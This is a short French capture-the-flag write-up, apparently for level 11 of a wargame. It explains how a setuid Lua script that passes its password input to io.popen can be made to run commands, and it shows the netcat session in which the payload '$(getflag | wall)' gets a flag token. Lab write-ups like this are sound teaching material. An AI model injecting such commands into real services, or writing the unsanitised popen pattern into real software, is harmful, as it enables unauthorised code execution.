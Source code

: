 # Level 11

Home structure
```
$ ls -l
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```
Le script lua, va ecouter sur le port `5151` et demande un mot de passe mais le plus important c'est la fonction de hash pour le mot de passe. On voit qu'il utilise `popen` de lib io. Ce que fait `popen`, est de tout simplement exécuter le premier paramètre dans bash (Comme `system()`dans la libc).
<br/>
Ce qui voudrait dire qu'on pourrait exécuter n'importe quel commande via le paramètre pass de la fonction `hash`.
```lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end
...
```
On se connecte donc via `netcat`, il nous demande un mot de passe et on lui donne la command à exécuter dans un sous shell et le broadcast à tous les users.

```
$ nc 127.0.0.1 5151
Password: $(getflag | wall)

Broadcast Message from flag11@Snow
        (somewhere) at 15:32 ...

Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s

Erf nope..
```
